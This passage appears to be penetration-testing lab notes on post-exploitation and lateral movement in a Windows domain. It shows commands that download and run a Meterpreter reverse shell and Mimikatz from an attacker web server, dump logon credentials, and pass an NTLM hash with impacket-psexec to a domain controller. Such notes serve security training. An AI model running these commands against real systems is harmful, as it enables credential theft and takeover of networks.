 Start:
- Once we discover that no AV is running, we should upgrade our shell to Meterpreter. This will not only provide us with a more robust shell environment, but also aid in performing post-exploitation.
- Let's download the previously created Meterpreter reverse shell payload **met.exe** to perform post-exploitation.
	- `cd C:\Users\Administrator
	- `iwr -uri http://192.168.119.5:8000/met.exe -Outfile met.exe`
	- `.\met.exe`
- In Metasploit, we should receive a new incoming session.
- Let's interact with the session and spawn a new PowerShell command line she
	- `sessions -i 2`
	- `shell`
	- `powershell`
- Next, we'll download the current *Mimikatz* version on Kali and serve it via our Python3 web server on port 8000. On MAILSRV1, we'll download Mimikatz with **iwr** and launch it.
	- `iwr -uri http://192.168.119.5:8000/mimikatz.exe -Outfile` 	- `mimikatz.exe`
	- `.\mimikatz.exe`
- Once Mimikatz is launched, we can use **privilege::debug** to obtain *SeDebugPrivilege*. Then, we can use **sekurlsa::logonpasswords** to list all provider credentials available on the system.
	- `privilege::debug`
	- `sekurlsa::logonpasswords`
- We successfully extracted the clear text password and NTLM hash of the domain administrator beccy. Let's store both of them together with the username in **creds.txt** on our Kali system.

### Lateral Movement

Scenario:
- In this section, we'll leverage the domain admin privileges for beccy to get access to the domain controller and therefore, achieve the second goal of the penetration test.

Start:
- Because we've obtained the clear text password and NTLM hash for *beccy*, we can use **impacket-psexec** to get an interactive shell on DCSRV1. While we could use either of them, let's use the NTLM hash. Once we have a command line shell, we confirm that we have privileged access on DCSRV1 (172.16.6.240).
	- `proxychains -q impacket-psexec -hashes 00000000000000000000000000000000:f0397ec5af49971f6efbdb07877046b3 beccy@172.16.6.240`
	- `whoami;hostname;ipconfig`


